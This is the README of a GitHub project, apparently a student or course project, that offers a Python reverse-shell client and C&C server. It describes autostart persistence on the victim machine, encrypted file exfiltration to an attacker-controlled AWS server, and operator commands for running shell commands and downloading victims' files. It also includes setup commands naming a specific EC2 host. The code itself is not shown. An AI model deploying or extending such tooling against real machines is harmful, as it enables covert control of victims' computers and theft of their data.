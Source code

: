 # Covert C&C and Exfiltration

#### https://github.com/HyejunJeong/covert-cnc-exfiltration

This program is a client and a server for covert command and control of, and data exfiltration from, an infected client.

The client is a reverse shell. After an initial execution, the client program will copy itself to the autostart directory so that the script will be executed every time the victim's operating system boots up. 

AWS cloud server is used and the data to be transfered are encrypted to hide the traffic.

The client (victim machine) sends a request and connects to the attacker-controlled server (AWS cloud server) in the same way it receives the shell commands. Notifications and any status updates are periodically sent to the server. Files are encrypted and transferred out of the client's network through TCP connection.  
Large files are broken up into multiple packets and transferred to the server through TCP connection in order to achieve a reliable in-order data transfer.


#### Requirements 
* Linux
* python3

## Getting Started


### Running the __Server__

1. cd to the project directory, and ssh into aws cloud server. 
    ```shell
    chmod 700 ./aws_key.pem 
    ssh -i "aws_key.pem" ubuntu@ec2-18-205-103-236.compute-1.amazonaws.com
    ```
2. In the aws cloud server, cd to covert-cnc-exfiltration and run the server.
    ```shell
    cd covert-cnc-exfiltration
    sudo python3 server2.py
    ```

### Running the __Client__
> **Note:** You will have to **start the server first** before running the client.

1. Clone this repository.
    ```shell
    git clone https://github.com/HyejunJeong/covert-cnc-exfiltration
    ```

2. Run the client on the project directory (in the client machine).
    ```shell
    python3 client2.py
    ```
> **Note:** By running client2.py on your computer will give the cloud server control of your computer (hence "botnet"), so it's good idea to use a virtual machine instead of your actual computer.



## Instructions

1. In the server, wait for the client connection and run ``` list ``` to see connected clients.

2. Run ``` select <client number>``` to select the target
3. Try running a command. 

> **Note:** If your command is invalid, it will print an error message, "No such file or directory: ...". This is because subprocesses uses the underlying POSIX execve and that's what it will report if command is invalid.

4. You can download and upload files using ``` download <file name from target> ``` and ``` upload <file name from C&C computer> ``` to download and send files from/to victim respectively.

> **Note:** If you do download/upload on a file that doesn't exist, it will give you the same error (No such file or directory: ...).

5. Press ``Ctrl-C`` to shut down the server.
